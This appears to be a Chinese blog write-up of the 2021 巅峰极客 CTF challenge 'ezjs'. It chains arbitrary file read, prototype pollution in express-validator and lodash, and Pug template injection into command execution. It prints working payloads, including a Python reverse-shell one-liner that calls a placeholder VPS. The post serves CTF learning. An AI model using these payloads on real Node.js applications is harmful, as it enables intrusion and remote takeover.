---

title: 2021巅峰极客一道题——ezjs
comments: true
hide: false
date: 2021-08-03 13:59:30
urlname: 2021dfjk
updated:
password:
tags: 原型链污染
categories: Write-Up
---


深入学习一下JavaScript的原型链污染漏洞

<!-- more -->

我是巅峰fw，就摸出来一道题目，好好学习下原型链污染。以下为做题视角。

## Web-ezjs

### 第一步 - 任意文件读取

打开题目发现非常简洁的登陆，以为是sql注入，随便输入以下发现直接进入了。

登陆限制username和password大于5位



图片显示这块明显有异常，对应GET请求的newing参数



#### 存在任意文件读取



利用此处读取了部分源码如下

`/app/routes/index.js`

```javascript
var express = require('express');
var router = express.Router();
var {body, validationResult} = require('express-validator');
var crypto = require('crypto');
var fs = require('fs');
var validator = [
  body('*').trim(),
  body('username').if(body('username').exists()).isLength({min: 5})
  .withMessage("username is too short"),
  body('password').if(body('password').exists()).isLength({min: 5})
  .withMessage("password is too short"),(req, res, next) => {
        const errors = validationResult(req)
        if (!errors.isEmpty()) {
      return res.status(400).render('msg', {title: 'error', msg: errors.array()[0].msg});
        }
        next()
    }
];
router.use(validator);

router.get('/', function(req, res, next) {
  return res.render('index', {title: "登录界面"});
});

router.post('/login', function(req, res, next) {
  let username = req.body.username;
  let password = req.body.password;
  if (username !== undefined && password !== undefined) {
    if (username == "admin" && password === crypto.randomBytes(32).toString('hex')) {
      req.session.username = "admin";
    } else if (username != "admin"){
      req.session.username = username;
      
    } else {
      return res.render('msg',{title: 'error', msg: 'admin password error'});
    }
    return res.redirect('/verify');
  }
  return res.render('msg',{title: 'error',msg: 'plz input your username and password'});
});

router.get('/verify', function(req, res, next) {
  console.log(req.session.username);
  if (req.session.username === undefined) {
    return res.render('msg', {title: 'error', msg: 'login first plz'});
  }
  if (req.session.username === "admin") {
    req.session.isadmin = "admin";
  } else {
    req.session.isadmin = "notadmin";
  }
  return res.render('verify', {title: 'success', msg: 'verify success'});
});


router.get('/admin', function(req, res, next) {
  //req.session.debug = true;
  if (req.session.username !== undefined && req.session.isadmin !== undefined) {
    if (req.query.newimg !== undefined) req.session.img = req.query.newimg;
    var imgdata = fs.readFileSync(req.session.img? req.session.img: "./images/1.png");
    var base64data = Buffer.from(imgdata, 'binary').toString('base64');
    var info = {title: '我的空间', msg: req.session.username, png: "data:image/png;base64," + base64data, diy: "十年磨一剑😅v0.0.0(尚处于开发版"};

    if (req.session.isadmin !== "notadmin") {
      if (req.session.debug !== undefined && req.session.debug !== false) info.pretty = req.query.p;
      if (req.query.diy !== undefined) req.session.diy = req.query.diy;
      info.diy = req.session.diy ? req.session.diy: "尊贵的admin";
      return res.render('admin', info);
    } else {
      return res.render('admin', info);
    }
  } else {
    return res.render('msg', {title: 'error', msg: 'plz login first'});
  }
});
module.exports = router;
```


/app/app.js

```javascript
var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');
var logger = require('morgan');
var crypto = require('crypto');
var session = require('express-session');
var key = 'session';


var indexRouter = require('./routes/index');
var app = express();
var secrets = crypto.randomBytes(32).toString('hex');
app.use(session({
  name: key,
  secret: secrets,
  store: new sessionStore(),
  saveUninitialized: false,
  resave: false,
  cookie: {
    maxAge: 100 * 60 * 600
  }

}));

// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');

app.use(logger('dev'));
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'public')));

app.use('/', indexRouter);


// catch 404 and forward to error handler
app.use(function(req, res, next) {
  next(createError(404));
});

// error handler
app.use(function(err, req, res, next) {
  // set locals, only providing error in development
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};

  // render the error page
  res.status(err.status || 500);
  res.render('error');
});

module.exports = app;
```

本地安装一下环境

```json
{
  "dependencies": {
    "cookie-parser": "^1.4.5",
    "crypto": "^1.0.1",
    "express": "^4.17.1",
    "express-session": "^1.17.2",
    "express-validator": "^6.12.1",
    "http-errors": "^1.8.0",
    "morgan": "^1.10.0",
    "path": "^0.12.7",
    "request": "^2.88.2",
    "session-file-store": "^1.5.0"
  }
}
```

### 第二步 - 代码审计

根据源码可以发现，题目要求我们以admin身份登陆，但是admin的密码又是随机不可能破解的



跟到`/verify`路由，可以看到如果`session.username`是admin就将`isadmin`赋值admin，否则就是notadmin 



再继续跟进到`/admin`路由 ，发现任意文件读取漏洞的源码。关键点在于下一步，如果`isadmin`**只要不是**notadmin就会执行一段操作，所以我们的下一个目标就是令`isadmin`变为非notadmin



admin的密码每次都是随机的，所以出题人根本不想让我们登陆获得admin，也不可能登陆admin。所以得另想方法，我们的关键点就在于让`isadmin`不是notadmin，而`isadmin`又是在`/verify`路由下才创建的，如果改变原型对象的内容让`isadmin`提前创建，这样就达到了污染，从而让`isadmin`变为非notadmin

图为 [@Mrkaixin](www.mrkaixin.top) 师傅给出的session样子



### 第三步 - 原型链污染

根据读到的package包引用，发现lodash版本为4.17.15。lodash<4.17.17是有原型链污染漏洞的



这里给出[参考文章](https://paper.seebug.org/1426/)引用部分，写的很详细，参考文章在文末

> 测试数据包：
>
> ```json
> {"__proto__[test]": "123 "}
> ```
>
> 这里在segments.reduce函数中对输入的值进行了一些判断和替换。重要的点就是当传入的键中存在`.` ，则会在字符两边加上`[" "]`，并且最终返回的是一个字符串形式的结果。
>
> 接着之前的过程，在经过了过滤器的处理之后，会通过lodash.set对指定的path设置新值
>
> 
>
> 尝试污染**proto**[test]，结果发现是污染并没有成功，原因是因为，当lodash.set中第一个参数存在一个与第二个参数同名的键时，污染就会失败
>
> 所以，我们就要尝试去绕过这个点。 我们来看一下这个语句：
>
> ```
> path !== '' ? _.set(req[location], path, newValue) : _.set(req, location, newValue);
> ```
>
> 这里的第一个参数是从请求中直接取出来的，path是经过先前处理后的出来的值。所以能不能通过这个处理来进行绕过呢？当然是可以的。 当我们传入：
>
> ```
> {"\"].__proto__[\"test":"123 "}
> ```
>
> 这里的键为`"].__proto__["test`，由于字符里面存在`.`，所以在segments.reduce函数处理时会对其左右加双引号和中括号，最终变成：`[""].__proto__["test"]`。
>
> 这时就不存在同名的键了，于是查看污染的后的值发现：
>
> 
>
> 我们设置的值并没有传递进去，而是污染为了一个空值。为什么传递进来的newValue为空值呢？
>
> 从select-fields.js中可以看到，是因为取值时，使用的是lodash.get方法从`req['body']`中取被处理后的键值，处理后的键是不存在的，所以取出来的值就为undefined。当undefined传递到Sanitization.run方法中后，经过了一个`.toString()`的处理变成了`''`空字符串。
>
> 利用lodash.get方法中读取键值的妙用得到最终的payload：
>
> ```json
> {"a": {"__proto__": {"test": "testvalue"}}, "a\"].__proto__[\"test": 222}
> ```
>
> 详细可在参考文章中查看

于是进行测试

测试代码

```javascript
const express = require('express')
const app = express()

const port = 9001

app.use(express.json())
app.use(express.urlencoded({
    extended: true
}))

const {
    body,
    validationResult
} = require('express-validator')

middlewares = [
    body('*').trim(),
    body('username').if(body('username').exists()).isLength({min: 5})
        .withMessage("username is too short"),
    body('password').if(body('password').exists()).isLength({min: 5})
        .withMessage("password is too short"),(req, res, next) => {
        const errors = validationResult(req)
        if (!errors.isEmpty()) {
            return res.status(400).render('msg', {title: 'error', msg: errors.array()[0].msg});
        }
        next()
    }
]

app.use(middlewares)

app.post("/user", (req, res) => {
    const foo = "hellowrold"
    let username = req.body.username;
    let password = req.body.password;
    console.log(req.body)
    console.log(Object.prototype)
    return res.status(200).send(foo)
})


app.listen(port, () => {
    console.log(`server listening on ${port}`)
})

lod = require('lodash')
lod.setWith({}, "__proto__[isadmin]", "notadmin")
console.log(Object.prototype)
```

根据原payload，可以发现，这里用json格式post的请求成功达到了目的，并且还能进行覆盖



但是问题在于题目是不解析json请求的，因此不能使用这种方式构造原型链污染



反思：比赛中由于未仔细审查代码，导致以为必须要覆盖为admin才行，错失了大量时间，其实只要是非notadmin就行

最终测试如下



Payload:`".constructor.prototype["xxx` 

利用这样的构造器去达到覆盖`xxx`的目的，`.__proto__.` 这样是不行的



原型链污染成功



### 第四步 - 命令执行

继续看代码，发现`session.debug`后将`query`请求的`p`赋到了`info.pretty`里。



---

要达到p，首先要覆盖`session.debug`，所以上一步最终payload为

```php
username=112222&password=123456&a".constructor.prototype["isadmin=&a".constructor.prototype["debug=
```

---


利用文件读取读到了`/app/view/admin.pug`

```pug
html
  head
    title= title
    meta(http-equiv="Content-Type", content="text/html;charset=UTF-8")
  body

    mixin hello(text)
      p= text
      div #{msg}

    mixin printdiy()
      div 个性签名：
        div #{diy}
        div ---#{msg}

    form(action="", method="get")
      div 更改图片
        select(name="newimg")
          option(value="./images/1.png") 纸飞机
          option(value="./images/2.png") 人
          option(value="./images/3.png") 小火车
      div 个性签名
        input(type="text" name="diy" value="尊贵的admin可以在这更改个性签名")
      input(type="submit")


    div 
    +hello("哈喽")
    +printdiy()
```

而pug这里存在命令执行漏洞，原因在pug模版引擎的一个[issue](https://github.com/pugjs/pug/issues/3312)中提到的

payload

```php
./?p=');process.mainModule.constructor._load('child_process').exec('whoami');_=('
```

反思：exec是不回显的！一直让我以为是我打的方式不对...

既然没回显那试一下发现是通外网的，就弹个shell回来。这算是个注入，一打整个界面变得惨不忍睹



普通的弹shell命令似乎并不管用，直接干它 用python命令弹shell



payload：

```
./?p=');process.mainModule.constructor._load('child_process').exec('python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'vps\',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\'/bin/bash\',\'-i\']);"');_=('
```

成功弹到shell，获得flag

